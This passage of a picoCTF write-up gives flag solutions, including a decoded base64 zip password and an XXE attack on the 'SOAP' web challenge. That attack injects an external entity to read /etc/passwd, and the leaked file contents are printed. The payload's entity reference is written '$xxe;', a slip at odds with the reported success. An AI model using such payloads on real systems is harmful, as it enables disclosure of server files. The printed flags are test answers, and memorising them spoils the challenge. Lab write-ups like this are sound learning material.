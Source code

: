 One after another to get something.

When I decoded the string: `iBwaWNvQ1RGe1PBwaWUvQ1RGe1AABBHHPJGTFRLKVGhpcyBpcyB0aGUgc2VjcmV0OiBwaWNvQ1RGe1IzNERJTkdfTE9LZF8=` in cyberchef I got the output:

```
...(garbage)This is the secret: picoCTF{R34DING_LOKd_
```

Well using it as the password to unlock the zip revealed a file which had the flag:

> picoCTF{R34DING_LOKd_fil56_succ3ss_cbf2ebf6}

___
___

# SOAP

**100 points**

AUTHOR: GEOFFREY NJOGU

Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.

___

I opened the website with `BurpSuite` and used proxy to see the requests to modify them.

Intercepting the request done by clicking on the `Details` button I could modify the `xml` data to perform an `XXE` attack just like the question suggests. 

*Reasource for the question:* [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) - it literally had the syntax to perform the attack, goated site.

So changing the parameters for the xml from:

```html
<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```

To:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>$xxe;</ID></data>
```

We successfully tricked the website to show the contents of `/etc/passwd` onto the screen and instead of the details. We get:

```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```
